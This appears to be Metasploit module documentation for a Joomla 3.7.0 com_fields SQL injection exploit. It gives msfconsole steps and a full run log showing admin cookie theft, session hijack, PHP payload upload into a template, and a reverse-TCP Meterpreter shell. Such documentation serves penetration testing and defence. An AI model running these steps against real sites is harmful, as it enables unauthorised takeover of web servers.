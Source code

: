 ## Vulnerable Application

  This module exploits a SQL Injection vulnerability in the com_fields component which was introduced to the core of Joomla in version 3.7.0.
  With the SQLi, its possible to enumerate cookies of administrative users, and hijack one of their sessions. If no administrators are authenticated, the RCE portion will not work. If a session hijack is available, one of the website templates is identified, and our payload is added to the template as a new file, and then executed.

## Verification


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomal 3.7.0 on Ubuntu 16.04 with another user authenticated as an administrator

```
msf > use exploit/unix/webapp/joomla_comfields_sqli_rce 
msf exploit(joomla_comfields_sqli_rce) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(joomla_comfields_sqli_rce) > set TARGETURI joomla_demo
TARGETURI => joomla_demo
msf exploit(joomla_comfields_sqli_rce) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 192.168.0.15:80 - Retrieved table prefix [ l6crq ]
[*] 192.168.0.15:80 - Retrieved admin cookie [ 0nva1b7d2re73dojsakmq5gqs5 ]
[*] 192.168.0.15:80 - Retrieved unauthenticated cookie [ b41f947841f591f08bb4203036a1b7d3 ]
[+] 192.168.0.15:80 - Successfully authenticated as Administrator
[*] 192.168.0.15:80 - Creating file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Following redirect to [ /joomla_demo/administrator/index.php?option=com_templates&view=template&id=503&file=LzRkdXFPUVdqcXljRTEucGhw ]
[*] 192.168.0.15:80 - Token [ cdec8f07a07e2810437f8f8a148b7628 ] retrieved
[*] 192.168.0.15:80 - Template path [ /templates/beez3/ ] retrieved
[*] 192.168.0.15:80 - Insert payload into file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Payload data inserted into [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Executing payload
[*] Sending stage (37543 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (192.168.0.24:4444 -> 1.2.3.4:49586) at 2018-03-06 20:20:22 -0500
[+] Deleted 4duqOQWjqycE1.php

meterpreter > sysinfo
Computer    : luisco-VirtualBox
OS          : Linux luisco-VirtualBox 4.10.0-38-generic #42~16.04.1-Ubuntu SMP Tue Oct 10 16:32:20 UTC 2017 x86_64
Meterpreter : php/linux

```
